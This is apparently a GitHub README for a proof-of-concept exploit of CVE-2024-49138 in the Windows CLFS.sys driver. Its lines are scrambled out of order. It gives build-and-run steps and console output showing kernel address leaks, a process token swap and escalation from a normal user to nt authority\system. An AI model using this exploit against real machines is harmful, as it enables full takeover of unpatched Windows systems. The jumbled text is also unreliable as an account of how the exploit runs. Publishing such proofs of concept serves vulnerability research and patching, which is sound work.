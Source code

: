 
![systemshell](https://github.com/user-attachments/assets/788d4096-1c9c-46a6-ad52-988e6538dd18)
# CVE-2024-49138-POC
## Compile and Run
(c) Microsoft Corporation. All rights reserved.
A thorough analysis will be provided in a detailed blog post.
AddLogContainer successful
C:\Users\IEUser\Desktop>
C:\Users\IEUser\Desktop>whoami
Compile x64 Release version.
CrowdStrike detected the vulnerability actively exploited by threat actors.
Directory created successfully: C:\temp
Kernel Base Address: 0xFFFFF80339800000
Kernel Name: ntoskrnl.exe
Microsoft Windows [Version 10.0.22631.2861]
NtReadVirtualMemory = 0x00007FFFAF0EFB40
NtWriteVirtualMemory = 0x00007FFFAF0EFAA0
Overwriting process token..
PS C:\Users\IEUser\Desktop> .\CVE-2024-49138-POC.exe
PS C:\Users\IEUser\Desktop> whoami
Process priority set to NORMAL_PRIORITY_CLASS.
Process priority set to REALTIME_PRIORITY_CLASS.
Proof of Concept that exploits [CVE-2024-49138](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-49138) in CLFS.sys. 
Resource size: 65536 bytes
Resource written to output.bin successfully.
Run and get a system shell.
Tested on **Windows 11 23h2**.
Thread priority set to the highest level: THREAD_PRIORITY_NORMAL.
Thread priority set to the highest level: TIME_CRITICAL.
```
address_to_write = 0xFFFFC201424CC2B2
buf = 0x0000000300905A4D
current token address = 0xFFFFC201423EC578
file opened successfully
hResource = 0x00007FF7CDB89080
hResource = 0x00007FF7CDB890A0
nt authority\system
pResourceData = 0x00007FF7CDB890A0
pcclfscontainer = 0x0000000002100000
reading base of ntoskrnl to check we have arbitrary read/write
swapping tokens...
systemtoken = 0xFFFFD401F501C6E9
token swapped. Restoring PreviousMode and spawning system shell...
triggering vuln...CreateLogFile failed with error 6601
vuln triggered
windows11\ieuser
